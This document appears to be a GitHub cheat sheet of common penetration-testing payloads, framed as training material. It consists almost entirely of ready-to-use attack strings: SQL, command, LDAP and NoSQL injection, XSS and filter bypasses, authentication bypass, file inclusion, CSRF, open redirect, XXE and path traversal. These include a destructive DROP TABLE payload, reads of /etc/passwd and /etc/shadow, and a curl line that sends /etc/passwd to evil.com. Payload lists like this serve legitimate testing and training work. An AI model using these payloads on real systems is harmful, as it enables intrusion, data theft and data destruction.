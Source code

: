 #  Common Penetration Testing Payloads
These are some common tests that I have found to be useful in my every day pen testing training.

---

##  Injection Attacks

###  SQL Injection (SQLi)
```sql
OR 1=1--
admin'--
' UNION SELECT NULL, username, password FROM users--
admin' OR '1'='1
'; DROP TABLE users;--
```

###  Command Injection
```bash
; ls -la
&& whoami
| id
$(whoami)
; curl http://evil.com/callback?data=$(cat /etc/passwd)
```

###  LDAP Injection
```ldap
*)(uid=*))(|(uid=*
admin)(&)
' OR 1=1)(| (uid=*))
```

###  NoSQL Injection
```json
{ "username": { "$ne": null }, "password": { "$ne": null } }
' || 1==1 //
```

---

##  Cross-Site Scripting (XSS)

###  Basic Payloads
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert('XSS')">
```

###  Filter Bypass
```html
<scr<script>ipt>alert(1)</scr</script>ipt>
<body onload=alert(1)>
"><script>alert(document.cookie)</script>
```

---

##  Authentication Bypass
```sql
' OR '1'='1'--
admin' #
admin" || "1"=="1"
```

---

##  File Inclusion

###  Local File Inclusion (LFI)
```
../../../../etc/passwd
/etc/shadow
php://filter/convert.base64-encode/resource=index.php
```

###  Remote File Inclusion (RFI)
```
http://evil.com/shell.txt
```

---

## 🧾 Cross-Site Request Forgery (CSRF)
```html
<form action="http://target.com/delete" method="POST">
  <input type="hidden" name="id" value="123">
  <input type="submit">
</form>
```

---

##  Open Redirect
```
/redirect?url=https://evil.com
/login?next=//evil.com
```

---

##  XXE (XML External Entity)
```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

---

##  Path Traversal
```
../../../../windows/win.ini
%2e%2e%2f  (URL-encoded ../)
```

---

